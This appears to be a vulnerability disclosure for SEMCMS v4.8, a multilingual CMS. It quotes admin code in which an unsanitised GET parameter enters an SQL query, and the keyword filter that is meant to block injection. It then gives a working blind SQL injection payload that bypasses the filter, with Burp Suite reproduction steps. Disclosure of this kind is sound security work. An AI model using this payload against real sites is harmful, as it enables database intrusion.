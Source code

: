 Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.
```
v4.8 Download Link: http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
```


Causes of vulnerabilities:

/xcR45q_Admin/SEMCMS_Menu.php Line 66




Vulnerability code:


```
<?php
 } elseif ($type == "edit") {
 
   $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_menu WHERE ID=" . $_GET["ID"]));
 
   ?>
```


It can be seen that the ID here will execute an SQL statement when passing parameters through GET


Filter code at/Include/contorl. PHP


Line 151


```
function test_input($data) { 
    //$data = str_replace("%", "percent", $data);
    $data = trim($data);
    $data = stripslashes($data);
    $data = htmlspecialchars($data,*ENT_QUOTES*);
    return $data;
  }
```

And the 8th line


```
function inject_check_sql($sql_str) {
 
   return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
 } 
 function verify_str($str) { 
    if(inject_check_sql($str)) {
      exit('Sorry,You do this is wrong! (.-.)');
     } 
   return $str;
 } 
```

 

By filtering the above content, we can construct a payload


```
-1%20or%20length(database())%20REGEXP%20char(94,53,36)
```

 


Recurrence of vulnerabilities

 
visit a website


```
http://url/xcR45q_Admin/SEMCMS_Menu.php
```

 

Brupsuite packet capture, Due to the length of the database name being 5 when creating a new site, the payload is constructed as


```
-1%20or%20length(database())%20REGEXP%20char(94,53,36)
```

（Determine if the length of the database name is 5）

 
Insert payload to view echo
 

![clip_image002](https://github.com/tzyyyyyyy/zemcms/assets/118863363/0b477628-181f-4feb-b1d3-3accffff8695)


Change the payload at this time

```
-1%20or%20length(database())%20REGEXP%20char(94,54,36)
```

（Determine if the length of the database name is 6） 

Change the payload at this time 

![clip_image004](https://github.com/tzyyyyyyy/zemcms/assets/118863363/c429a3bf-3004-43e7-a772-7f61ade3a220)

 
SQL injection can continue based on changes in the page in the future
